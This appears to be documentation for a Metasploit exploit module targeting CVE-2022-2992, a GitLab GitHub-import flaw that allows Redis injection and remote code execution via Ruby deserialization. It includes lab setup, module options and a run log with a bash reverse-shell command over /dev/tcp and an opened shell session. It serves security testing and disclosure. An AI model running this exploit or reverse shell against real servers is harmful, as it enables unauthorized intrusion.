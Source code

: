 ## Vulnerable Application

### Description

An authenticated user can import a repository from Github into Gitlab.

When importing a GitHub repository the Gitlab api client uses `Sawyer` for handling the responses. This takes a JSON hash and converts
it into a Ruby class that has methods matching all of the keys. This happens recursively, and allows for any method to be overridden
including built-in methods such as `to_s`.

The redis gem uses `to_s` and `bytesize` to generate the RESP (Redis serialization protocol) command. By replying with a specially
crafted JSON object (that will be further parsed as a `Sawyer::Resource`), one controlling the Github server can inject arbitrary
redis commands to the stream.

On August 30, 2022, Gitlab released a software update that addressed this vulnerability (CVE-2022-2992).

The following products are affected:

- From 11.10 to 15.1.6
- From 15.2 to 15.2.4
- From 15.3 to 15.3.2


### Exploitation

This module will abuse the authenticated Remote code execution on Gitlab through injecting a Ruby serialized object into the Redis as user
session object that when the Gitlab call the Marshal.load when loading the cookie ` _gitlab_session` it will execute a deserialisation
gadget and trigger the payload.

To achieve that this module:
- Will generate an universal Ruby deserialisation gadget payload;
- Will create an access token for the user targeted;
- Will start a server to emulate the Github and serve the payload to be injected;
- Will create a group and also trigger the Github import feature to the repository from the controlled server
- Will perform a request using the just injected session ID that when loaded must trigger the payload.

After the execution the cleanup method will be called and:
- Should delete the created group and consequently the repository
- Should revoke the access token created
- Should logout the user

### Setup

Create a `docker-compose.yml` file as below:

```yml
services:
  gitlab:
    image: 'gitlab/gitlab-ee:15.3.1-ee.0'
    restart: always
    container_name: gitlab
    hostname: 'gitlab.example'
    network_mode: "bridge"
    ports:
      - '880:80'
      - '8443:443'
    volumes:
      - gitlab_config:/etc/gitlab
      - gitlab_logs:/var/log/gitlab
      - gitlab_data:/var/opt/gitlab
volumes:
  gitlab_config:
    driver: local
  gitlab_logs:
    driver: local
  gitlab_data:
    driver: local
```

Run the below command to create the container:

```
$ docker-compose up
```

Wait for container to be "healthy" before continue. One can use [this](https://github.com/redwaysecurity/CVEs/blob/main/CVE-2022-2992/environment/healthy.sh) bash script to monitor the status.

```
$ # Creating personal access token for the root user
$ TOKEN=`tr -dc A-Za-z0-9 </dev/urandom | head -c 24 ; echo ''`
$ docker exec -e TOKEN=$TOKEN -it gitlab gitlab-rails runner "token = User.find_by_username('root').personal_access_tokens.create(scopes: [:sudo, :api], name: 'Automation token'); token.set_token(ENV['TOKEN']); token.save!"
$ # Using the personal access token from the root user a user.
$ USER=msf
$ PASSWORD=SuperStrongestGitlabPassword
$ curl --request POST --header "PRIVATE-TOKEN: $TOKEN" --data "skip_confirmation=true&email=$USER@gitlab.example&name=$USER&username=$USER&password=$PASSWORD" "http://gitlab.example:880/api/v4/users"
```

## Verification Steps
Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

### TARGETURI (required)

The path to the Gitlab (Default: `/`).

### USERNAME (required)

The username of the targed user to authenticate with.

### PASSWORD (required)

The password of the targed user to authenticate with.

### NGROK_URL (required)

The Ngrok tunnel url to be used. The Gitlab will perform requests to this address when trying to import the repository.

Example how start the tunnel:
```
ngrok http 127.0.0.1:4567
```

### SRVHOST (required)

The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.

### SRVPORT (required)

The local port to listen on. This is the port to be used when creating the tunnel.

## Scenarios

### Doker container running Gitlab 15.3.1

```
msf6 exploit(multi/http/gitlab_github_import_rce_cve_2022_2992) > options

Module options (exploit/multi/http/gitlab_github_import_rce_cve_2022_2992):

   Name       Current Setting                         Required  Description
   ----       ---------------                         --------  -----------
   NGROK_URL  https://f8f5-194-230-160-77.eu.ngrok.i  yes       The Ngrok tunnel url
              o
   PASSWORD   12345678                                yes       The password for the specified username
   Proxies    http:172.25.144.1:8080                  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.25.144.1                            yes       The target host(s), see https://github.com/rapid7/metasploit-framewor
                                                                k/wiki/Using-Metasploit
   RPORT      880                                     yes       The target port (TCP)
   SRVHOST    0.0.0.0                                 yes       The local host or network interface to listen on. This must be an add
                                                                ress on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    4567                                    yes       The local port to listen on.
   SSL        false                                   no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                            no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                                       yes       The base path to the gitlab application
   URIPATH                                            no        The URI to use for this exploit (default is random)
   USERNAME   heyder                                  yes       The username to authenticate as
   VHOST                                              no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting       Required  Description
   ----   ---------------       --------  -----------
   LHOST  host.docker.internal  yes       The listen address (an interface may be specified)
   LPORT  4444                  yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command

msf6 exploit(multi/http/gitlab_github_import_rce_cve_2022_2992) > exploit

[+] bash -c '0<&212-;exec 212<>/dev/tcp/host.docker.internal/4444;sh <&212 >&212 2>&212'
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/http/gitlab_github_import_rce_cve_2022_2992) >
[-] Handler failed to bind to 169.254.192.184:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444
[!] AutoCheck is disabled, proceeding with exploitation
[*] Using URL: http://host.docker.internal:4567/
[*] Executing command: bash -c '0<&151-;exec 151<>/dev/tcp/host.docker.internal/4444;sh <&151 >&151 2>&151'
[*] Session ID: lbid
[*] Creating group KQPhsIKX
[*] Importing a repository from github
[*] Command shell session 1 opened (127.0.0.1:4444 -> 127.0.0.1:58700) at 2022-11-19 15:23:06 +0100

msf6 exploit(multi/http/gitlab_github_import_rce_cve_2022_2992) > sessions -1
[*] Starting interaction with 1...

id
uid=998(git) gid=998(git) groups=998(git)
pwd
/var/opt/gitlab/gitlab-rails/working
exit
[*] Server stopped.
[*] 172.25.144.1 - Command shell session 1 closed.
```
